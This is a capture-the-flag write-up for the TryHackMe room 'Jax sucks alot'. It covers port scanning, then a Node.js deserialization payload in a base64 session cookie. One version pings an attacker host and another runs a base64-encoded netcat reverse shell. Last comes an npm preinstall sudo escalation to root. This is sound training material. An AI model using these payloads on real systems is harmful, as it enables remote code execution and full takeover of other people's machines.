 ```yaml
---
title: "Jax sucks alot............."
date: 2025-02-16
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Jax sucks alot
categories: [TryHackMe, Easy]
tags: [linux, node, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Jax sucks alot.............</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>In JavaScript everything is a terrible mistake.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/jason">https://tryhackme.com/room/jason</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Jax sucks alot..............  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.26.215
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 05:33 EST
  Nmap scan report for 10.10.26.215
  Host is up (0.058s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 21.24 seconds
```

From here I proceeded the analysis with port 80.

## Port 80 Analysis

The website displays an input field for subscribing to a newsletter. 

![Newsletter Subscription Page](/assets/img/tryhackme/Jason/thm_jason_1.jpg)

Upon inspecting the source code, I noticed that the input was converted and stored as a cookie. This cookie was added as a session cookie to every request. I checked the request, and it appeared to be a `base64` encoded string:

![Cookie inside request](/assets/img/tryhackme/Jason/thm_jason_2.jpg)

```bash
$ echo "eyJlbWFpbCI6InRlc3RAdGVzdC5kZSJ9" | base64 -d                                        
{"email":"test@test.de"} 
```

After some research, I came across information about Node.js deserialization attacks. Before attempting to get a reverse shell, I created a small proof of concept:
```bash
<@base64>{"email":"_$$ND_FUNC$$_function(){\n \t require('child_process').exec('ping -c 1 [attackerip]',function(error, stdout, stderr) { console.log(stdout) });\n }()"}</@base64>
```

This payload should send me an `icmp` packet upon execution:
```bash
$ sudo tcpdump -i tun0 icmp                     
  tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
  listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
  13:19:05.578402 IP 10.10.119.248 > [attackerip]: ICMP echo request, id 1, seq 1, length 64
  13:19:05.578413 IP [attackerip] > 10.10.119.248: ICMP echo reply, id 1, seq 1, length 64
```

Great! Now we can use this to gain a reverse shell. I started `penelope` and pressed option `p` to retrieve predefined payloads. By coping the penelope payload into the previous NodeJS deserialization attack, I was able to obtain a reverse shell:
```bash
@base64>{"email":"_$$ND_FUNC$$_function(){\n \t require('child_process').exec('echo -n cm0gL3RtcC9fO21rZmlmbyAvdG1wL187Y2F0IC90bXAvX3xzaCAyPiYxfG5jIGF0dGFja2VyaXAgNDQ0NCA+L3RtcC9fICYK|base64 -d|sh',function(error, stdout, stderr) { console.log(stdout) })
```

After receiving the reverse shell, I was able to retrieve the user flag::
```bash
dylan@jason:~$ cd /home/dylan/
dylan@jason:~$ cat user.txt 
	[removed]
```

## Privilege Escalation root

Next, I ran `sudo -l` and got the following output:
```bash
dylan@jason:~$ sudo -l
  Matching Defaults entries for dylan on jason:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User dylan may run the following commands on jason:
      (ALL) NOPASSWD: /usr/bin/npm *
```

A quick search on <a href="https://gtfobins.github.io/gtfobins/npm/#sudo">gftobins</a> provided all the information I needed:
```bash
dylan@jason:~$ TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.oKtTgZ2Zvd
> /bin/sh

# whoami
	root
# cat /root/root.txt
	[removed]
```

solved! :)
